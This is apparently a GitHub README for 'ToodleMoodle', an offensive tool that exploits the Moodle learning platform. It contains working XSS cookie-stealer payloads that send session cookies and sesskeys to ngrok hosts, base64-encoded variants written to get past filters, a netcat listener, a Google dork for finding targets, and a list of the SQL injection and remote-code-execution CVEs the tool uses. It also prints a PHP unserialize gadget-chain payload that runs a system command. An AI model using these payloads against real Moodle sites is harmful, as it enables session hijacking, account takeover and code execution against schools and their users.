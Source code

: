 # ToodleMoodle

![ToodleMoodle](images/ReadMeMoodleImage.png?raw=true)

## Installation

TODO: Write installation instructions here

## Usage

Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:

``` html
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>
<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>
```

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()

The vulnerabilities we use are:

* Dashboard XSS CVE-2019-3847
* Assignment XSS CVE-2017-2578
* SQL Injection / Privilege escalation CVE-2017-2641
* RCE (must be teacher) CVE-2018-1133
* RCE (attacker needs permissions to create a quiz or at least be able to import questions)
CVE-2018-14630

https://packetstormsecurity.com/files/149426/Moodle-3.x-PHP-Unserialize-Remote-Code-Execution.html CVE-2018-14630

Features:

* Scan: the tool can detect version
* Exploit RCE 2018-1133 and CVE-2018-14630
* Exploit 2017-2641 SQL injection (via user pref)
* Add XSS to account dashboard, use clickjacker, using CVE-2019-3847 to hijack
session

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```
or
```
crystal build src/tmoodle.cr && ./tmoodle
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```

Use the  --release flag for an optimized production build.

### Docker image setup
```
bin/moodle-docker-compose up
```

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer

// Legacy format containing PHP serialisation.
            https://github.com/moodle/moodle/archive/v3.1.13.zip
            foreach ($data['#']['answer'] as $answerxml) {
                $ans = $format->import_answer($answerxml);
                $options = unserialize(stripslashes($ans->feedback['text']));
                // $payload = 
                // "O:15:\"\\core\\lock\\lock\":3:{s:6:\"\0*\0key\";O:23:\"\\core_availability\\tree\":1:{s:11:\"\0*\0children\";O:24:\"\\core\\dml\\recordset_walk\":2:{s:11:\"\0*\0callback\";s:6:\"system\";s:12:\"\0*\0recordset\";O:25:\"question_attempt_iterator\":2:{s:7:\"\0*\0quba\";O:26:\"question_usage_by_activity\":1:{s:19:\"\0*\0questionattempts\";a:1:{s:4:\"1337\";s:13:\"echo aawhoami\";}}s:8:\"\0*\0slots\";a:1:{i:0;i:1337;}}}}s:9:\"draggroup\";s:1:\"1\";s:8:\"infinite\";i:1;}";
                // $options = unserialize($payload);//unserialize(stripslashes($ans->feedback['text']));
                // echo $payload;
                
                // var_dump($options);
O:15:"\core\lock\lock":3:{s:6:"�*�key";O:23:"\core_availability\tree":1:{s:11:"�*�children";O:24:"\core\dml\recordset_walk":2:{s:11:"�*�callback";s:6:"system";s:12:"�*�recordset";O:25:"question_attempt_iterator":2:{s:7:"�*�quba";O:26:"question_usage_by_activity":1:{s:19:"�*�questionattempts";a:1:{s:4:"1337";s:13:"echo aawhoami";}}s:8:"�*�slots";a:1:{i:0;i:1337;}}}}s:9:"draggroup";s:1:"1";s:8:"infinite";i:1;}

